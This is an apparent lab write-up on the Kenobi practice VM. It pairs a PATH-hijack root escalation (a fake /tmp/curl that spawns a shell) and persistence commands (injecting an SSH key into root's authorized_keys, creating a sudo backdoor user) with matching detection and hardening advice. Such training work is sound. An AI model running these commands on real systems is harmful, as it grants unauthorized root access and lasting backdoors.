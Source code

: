 # Day 5 – Attack vs Defense

### Target
- Kenobi VM (Ubuntu 20.04.6 LTS)  
- Root access achieved via PATH hijack in `/usr/bin/menu`

---

## 🔒 Persistence Techniques

### 1️⃣ SSH Key Injection
**Description:** Added a public key to root's `authorized_keys` to allow remote root login.

**Command Example:**
```bash
mkdir -p /root/.ssh
echo "<attacker-public-key>" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

**Defense:**
- Monitor `/root/.ssh/authorized_keys` for unauthorized changes.  
- Check `/var/log/auth.log` for suspicious SSH key additions.  

---

### 2️⃣ Backdoor User Creation
**Description:** Created a new sudo-enabled user for persistence.

**Command Example:**
```bash
useradd -m -s /bin/bash eviluser
echo "eviluser:password123" | chpasswd
usermod -aG sudo eviluser
```

**Defense:**
- Audit `/etc/passwd` and `/etc/shadow` regularly.  
- Monitor `/var/log/auth.log` for unexpected logins.  

---

### 3️⃣ PATH Hijack Exploit
**Description:** Exploited a root-owned script (`/usr/bin/menu`) by prepending `/tmp` to `$PATH`.

**Steps:**
```bash
echo "/bin/sh" > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

**Outcome:** Spawned a root shell.

**Defense:**
- Avoid using relative paths in SUID/root scripts.  
- Monitor `/tmp` for unexpected executables.  
- Remove or restrict unnecessary SUID binaries.  

---

## 🛡 Detection & Mitigation

**Audit Tools:**  
- `auditd` can track execution of binaries in `/tmp`.

**Log Monitoring:**  
- `/var/log/auth.log` → detects unauthorized SSH keys and new user logins.  
- `/var/log/syslog` → monitors suspicious system calls.  

**System Hardening:**  
- Patch known vulnerabilities (e.g., `pkexec` CVE-2021-4034).  
- Use AppArmor/SELinux to restrict execution.  
- File integrity monitoring (e.g., AIDE, Tripwire) for critical files like `/etc/passwd` and `/root/.ssh`.  

---

## 📝 Summary
This session demonstrated root escalation and persistence techniques on Kenobi VM. The focus was on understanding attack methods and corresponding defense mechanisms. Implementing **logging, monitoring, and system hardening** can help prevent such compromises in real-world environments.
